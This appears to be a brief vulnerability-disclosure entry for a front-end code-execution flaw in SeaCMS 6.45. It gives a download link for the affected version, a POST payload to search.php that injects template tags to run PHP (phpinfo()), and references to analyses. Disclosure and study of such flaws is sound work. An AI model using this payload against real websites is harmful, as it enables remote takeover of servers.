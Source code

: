 ##  Affected Version

 下载地址：

 链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw 

 密码：cd48




## POC



`http://127.0.0.1/seacms645/search.php`

`post:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}`



![](http://opmi2ydgh.bkt.clouddn.com//18-7-5/92423502.jpg)



## References

[https://bbs.ichunqiu.com/thread-35085-1-1.html]([SeaCMS v6.45前台Getshell 代码执行漏洞分析](https://bbs.ichunqiu.com/thread-35085-1-1.html))

[http://0day5.com/archives/4249/](http://0day5.com/archives/4249/)

[https://blog.csdn.net/qq_35078631/article/details/76595817](https://blog.csdn.net/qq_35078631/article/details/76595817)



